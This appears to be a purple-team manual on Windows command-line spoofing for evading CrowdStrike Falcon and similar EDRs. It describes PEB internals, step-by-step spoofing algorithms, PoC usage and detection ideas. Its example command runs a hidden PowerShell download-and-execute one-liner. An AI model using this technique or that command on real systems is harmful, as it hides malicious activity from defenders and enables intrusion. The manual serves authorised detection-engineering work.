

# Command-Line Spoofing on Windows  
### Purple Team Technical Manual  
**Technique Reference:** [yo-yo-yo-jbo/commandline_spoofing](https://github.com/yo-yo-yo-jbo/commandline_spoofing)  
**Focus:** Evasion testing against CrowdStrike Falcon (and similar EDRs)  
**Architecture:** Native x64 only (true 64-bit processes)  
**Date:** August 2026  

---

## 1. Executive Summary

Command-line spoofing is a classic process creation evasion technique. A process is started with a **benign-looking command line**, the EDR captures that command line during process creation, and shortly afterwards the real (malicious) command line is written into the process’s memory.  

When performed correctly, tools such as Process Explorer, Task Manager, and many EDR process-creation events will show the *real* command line, while the original creation telemetry still contains the *fake* one.

This manual documents:

- The classic (length-constrained) method  
- Why simply allocating a new buffer fails  
- The refined technique that removes the length limitation by delaying the patch until after `kernel32.dll` is loaded  
- Exact implementation details from the referenced PoC  
- Practical guidance for purple-team testing against CrowdStrike Falcon  

---

## 2. Motivation & EDR Context (CrowdStrike Focus)

Most modern EDRs, including CrowdStrike Falcon, capture process command lines at (or very near) process creation time. Common collection points include:

- Kernel process-notify callbacks (`PsSetCreateProcessNotifyRoutineEx`)
- ETW providers (Microsoft-Windows-Kernel-Process, etc.)
- User-mode hooks or minifilter telemetry

Once the command line is recorded in the process-creation event (e.g., Falcon `ProcessRollup2` / `ProcessCreate`), many products treat it as authoritative and do not continuously re-read the PEB.

**Goal of the technique**  
1. Launch the process with a short, clean, legitimate-looking command line.  
2. Give the EDR a short window to observe and log that clean command line.  
3. Overwrite the command line in the remote process with the real payload.  
4. Resume execution.

Result: Falcon (and similar products) often log the benign command line in their process-creation telemetry, while the process actually executes the malicious arguments.

---

## 3. Required Windows Internals

### 3.1 Process Environment Block (PEB)

The PEB is a user-mode structure that mirrors selected fields from the kernel `EPROCESS`.  
Relevant field:

```c
PPEB->ProcessParameters   // → RTL_USER_PROCESS_PARAMETERS*
```

### 3.2 RTL_USER_PROCESS_PARAMETERS

Semi-documented structure that holds the process’s environment, current directory, image path, and **command line**.

Key members used by the technique:

| Offset (x64) | Member                  | Type              | Notes |
|--------------|-------------------------|-------------------|-------|
| 0x00         | MaximumLength           | ULONG             | — |
| 0x04         | Length                  | ULONG             | **Undocumented size of the whole block + trailing buffers** |
| …            | …                       | …                 | — |
| 0x70         | CommandLine             | UNICODE_STRING    | The field we care about |

### 3.3 UNICODE_STRING

```c
typedef struct _UNICODE_STRING {
    USHORT Length;          // bytes, excluding null
    USHORT MaximumLength;   // bytes, including null
    // 4-byte padding on x64
    PWSTR  Buffer;          // pointer to wide string
} UNICODE_STRING;
```

### 3.4 Critical Behaviour: RtlpInitParameterBlock

When a process is created, the kernel allocates the initial `RTL_USER_PROCESS_PARAMETERS` in a large contiguous region that includes the various string buffers.

During early process initialisation (inside `LdrpInitializeProcess`), `ntdll!RtlpInitParameterBlock` performs the following:

1. Allocates a **new** `RTL_USER_PROCESS_PARAMETERS` on the process heap, sized according to the undocumented `Length` field of the *old* block.
2. Copies the old structure into the new heap allocation.
3. Calculates the pointer delta between the old and new blocks.
4. **Fixes up every UNICODE_STRING.Buffer** that pointed into the old block (CommandLine, ImagePathName, DllPath, CurrentDirectory, etc.) by adding the delta.
5. Updates `PEB->ProcessParameters` to point to the new heap-allocated block.
6. The original kernel-allocated region can later be freed.

**Consequence**  
If you allocate a new buffer with `VirtualAllocEx` *before* `RtlpInitParameterBlock` runs and then update `CommandLine.Buffer`, the fix-up code will add the delta to your new pointer, producing a completely wrong address → crash (`0xC0000142` / access violation inside `RtlUnicodeStringToAnsiString`).

This is the root cause of the classic “length limitation”.

---

## 4. Classic Technique (Length-Constrained)

**Assumption:** New command line ≤ original command line (in bytes).

```
1. CreateProcessW(..., CREATE_SUSPENDED, ...) with the *fake* command line
2. (Optional) Sleep – give EDR time to capture the creation event
3. NtQueryInformationProcess(ProcessBasicInformation) → PEB address
4. ReadProcessMemory(PEB) → ProcessParameters pointer
5. ReadProcessMemory(ProcessParameters) → UNICODE_STRING CommandLine
6. WriteProcessMemory(CommandLine.Buffer, real_cmdline)
7. WriteProcessMemory(&CommandLine.Length, new_length)
8. ResumeThread
```

This works only when the new string fits inside the already-allocated buffer.

---

## 5. Breaking the Length Limitation – Refined Technique

The PoC solves the problem by **delaying the patch** until after `RtlpInitParameterBlock` has already run.

### Key Observations

- When a process is started with `DEBUG_ONLY_THIS_PROCESS`, only `ntdll.dll` (and the main image) are loaded initially.
- `kernel32.dll` is a KnownDll and is loaded at a fixed base address across all processes (on a given boot).
- By the time `kernel32.dll` appears in a `LOAD_DLL_DEBUG_EVENT`, `RtlpInitParameterBlock` has completed.
- Therefore it is now safe to:
  - Zero the old command-line buffer
  - `VirtualAllocEx` a new buffer of any size
  - Write the real command line
  - Update the three UNICODE_STRING fields (`Length`, `MaximumLength`, `Buffer`)

### Final Algorithm (PoC)

```
1. CreateProcessW(fake_cmdline, DEBUG_ONLY_THIS_PROCESS | optional CREATE_NO_WINDOW)
2. (Optional) Sleep(seconds)
3. GetModuleHandleW(L"kernel32.dll") → local base address
4. Loop:
      WaitForDebugEvent
      if CREATE_PROCESS_DEBUG_EVENT → CloseHandle(hFile)
      if LOAD_DLL_DEBUG_EVENT:
          CloseHandle(hFile)
          if lpBaseOfDll == local kernel32 base → break
      ContinueDebugEvent
5. Now safe to spoof:
      NtQueryInformationProcess → PEB
      Read PEB → ProcessParameters
      Read ProcessParameters → CommandLine UNICODE_STRING
      ZeroProcessMemory(old Buffer)
      VirtualAllocEx(new size)
      WriteProcessMemory(new buffer, real_cmdline)
      Update Length / MaximumLength / Buffer
      WriteProcessMemory(remote UNICODE_STRING)
6. Clean detachment:
      SuspendThread(main thread)
      ContinueDebugEvent (the kernel32 load event)
      Drain remaining debug events (WaitForDebugEvent timeout=0)
      DebugActiveProcessStop
      ResumeThread
```

---

## 6. PoC Usage

### Build

Open `CmdSpoofer/CmdSpoofer.sln` in Visual Studio (x64 Release or Debug).  
The project is a simple console application that links against the spoofer module.

### Command-Line Interface

```text
CmdSpoofer.exe  <fake_command_line>  <real_command_line>  <sleep_seconds>
```

**Rules**
- Both command lines must include the full path to the executable (exactly as you would pass to `CreateProcessW`).
- Quote arguments that contain spaces.
- `sleep_seconds` is the delay between process creation and the spoof (gives the EDR time to observe the fake command line).

**Example**

```cmd
CmdSpoofer.exe ^
  "C:\Windows\System32\cmd.exe /c echo This looks clean" ^
  "C:\Windows\System32\cmd.exe /c powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://...')" ^
  3
```

### Library Usage

```c
#include "Spoofer.h"

RETSTATUS status = SPOOFER_Spawn(
    L"C:\\Windows\\System32\\notepad.exe",          // fake
    L"C:\\Windows\\System32\\notepad.exe C:\\temp\\payload.txt", // real
    2,                                              // sleep seconds
    FALSE,                                          // hide window
    FALSE,                                          // hide console
    NULL                                            // optional process handle out
);
```

---

## 7. Purple Team Testing Against CrowdStrike

### Recommended Lab Setup

- Domain-joined Windows 11 Enterprise VM with Falcon sensor installed and reporting.
- Sensor in detection-only or full prevention mode (document which).
- Isolated test network or host-only network for the payload.
- Ability to query Falcon console / SIEM for process-creation events shortly after the test.

### Test Matrix

| Test Case | Fake Command Line | Real Command Line | Expected Falcon Behaviour |
|-----------|-------------------|-------------------|---------------------------|
| Baseline (no spoof) | real cmdline | real cmdline | Exact match in ProcessCreate |
| Classic length-limited | short benign | same-length real | Fake appears in creation event |
| Advanced (this PoC) | short benign | long / completely different | Fake in creation event; real visible in later process inspection |
| Sleep variation | 0 s / 1 s / 3 s / 5 s | — | Determine minimum reliable window for Falcon capture |
| LOLBin focus | `cmd.exe /c echo ok` | `cmd.exe /c powershell …` | High-value for detection engineering |

### What to Collect

1. **Falcon Process Creation event**  
   - `CommandLine` field  
   - `ImageFileName` / `FileName`  
   - Timestamp relative to process start

2. **Live process inspection** (after resume)  
   - Process Explorer / Process Hacker “Command line” column  
   - `wmic process where processid=… get commandline`  
   - Sysmon (if present) Event ID 1 after the fact

3. **Memory dump** of the target process (optional)  
   - Confirm the PEB `CommandLine.Buffer` points to the new allocation

### Detection Opportunities (Blue Team Notes)

Even if the creation event contains the fake command line, several residual artefacts remain:

- The original (fake) command-line buffer is zeroed but the allocation still exists for a short time.
- The new command-line buffer is a private `VirtualAlloc` region (PAGE_READWRITE) that is not part of the original process-parameter block.
- Process creation still occurs under a debugger (`DEBUG_ONLY_THIS_PROCESS`).  
  Falcon may surface this as “process started under debugger” or elevated risk score.
- Timing anomaly: process remains suspended / under debug for a measurable window.
- Parent-child relationship and image path are still correct; only the arguments change.

Recommended detection ideas:

- Alert on processes whose command line (from PEB) differs from the command line recorded at creation time.
- Flag processes that were created with the debug flag.
- Monitor for short-lived suspended processes that later resume and load unusual modules.

---

## 8. Limitations & Caveats

| Limitation | Impact | Mitigation / Note |
|------------|--------|-------------------|
| Requires `DEBUG_ONLY_THIS_PROCESS` | Creates a temporary debugger attachment | Visible to EDRs that monitor debug events |
| Only native x64 | Does not cover WOW64 | Out of scope of original research |
| Single-threaded assumption at patch time | Safe only while the process is still single-threaded | True until `kernel32` load |
| KnownDll base address comparison | Relies on kernel32 being a KnownDll | Holds on all supported Windows versions |
| Sleep is a race | Too short → EDR may miss the fake cmdline | Empirically tune per environment |
| Process may be terminated on failure | PoC cleans up by terminating on error | Expected behaviour for a research tool |

---

## 9. Flow Diagram (Mermaid)



---

## 10. References

- Original research & PoC: https://github.com/yo-yo-yo-jbo/commandline_spoofing  
- Author: Jonathan Bar Or  
- Related deep dive on the same problem: https://l--k.uk/2022/03/05/command-line-tampering-in-windows-part-iii/  
- Geoff Chappell – RTL_USER_PROCESS_PARAMETERS documentation  
- Microsoft – UNICODE_STRING, PEB, CreateProcess, debug APIs  

---

**Document control**  
This manual is intended for authorised purple-team and detection-engineering use only.  
Always test in isolated environments and obtain proper authorisation before running against production sensors.

*End of manual*
